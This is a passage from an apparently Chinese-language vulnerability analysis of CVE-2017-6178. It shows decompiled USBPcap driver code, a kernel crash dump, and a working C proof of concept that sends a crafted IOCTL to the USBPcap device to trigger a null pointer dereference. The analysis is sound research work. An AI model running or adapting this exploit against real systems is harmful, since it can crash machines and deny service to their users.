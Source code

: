 ```c
    return v6;
  }
  else
  {
    sub_11434((PIRP)Tag, v3, 0);
    return v8;
  }
}
```

这个地方并未判断`DriverObject`是否为`NULL`，而导致这个未初始化的值直接传入了`IofCallDriver`，从而出现了空指针解引用的错误

最终`crash`位置

```
Access violation - code c0000005 (!!! second chance !!!)
eax=87b91268 ebx=86ff89f0 ecx=0000000d edx=87b911f8 esi=00000000 edi=86ff89e0
eip=83e57f7b esp=8a987ac0 ebp=8a987ac8 iopl=0         nv up ei ng nz na po cy
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00010383
nt!IofCallDriver+0x57:
83e57f7b 8b4608          mov     eax,dword ptr [esi+8] ds:0023:00000008=????????
```

## POC

因为是`IRP_MJ_FILE_SYSTEM_CONTROL`，所以要用`FILE_DEVICE_FILE_SYSTEM`的`IOCTL`才可以

```c
#define FILE_DEVICE_FILE_SYSTEM         0x00000009
#define FILE_DEVICE_UNKNOWN             0x00000022
```

最终`POC`是直接用的[ k0keoyo师傅的POC ](https://github.com/k0keoyo/try_exploit/blob/master/_cve_2017_6178_poc/_CVE_2017_6178_PoC.cpp)

```c
#include <stdio.h>
#include <windows.h>

int main(int argc, char *argv[])
{
    HANDLE hDevice;
    DWORD dwRetBytes = 0;
    hDevice = CreateFile("\\\\.\\USBPcap1", 0, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);

    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("[-] CreateFile failed (%.08x)\n", GetLastError());
        return -1;
    }
    bResult = DeviceIoControl(hDevice, 0x00090000,(LPVOID)0x1, (DWORD)0, NULL, 0, &dwRetBytes, NULL);
    if (!bResult)
    {
        printf("[-] DeviceIOControl failed (%.08x)\n",GetLastError());
        return 0;
    }
    printf("[+] if show this info ,PoC is failed:(\n\n");
    return 0;
}
```
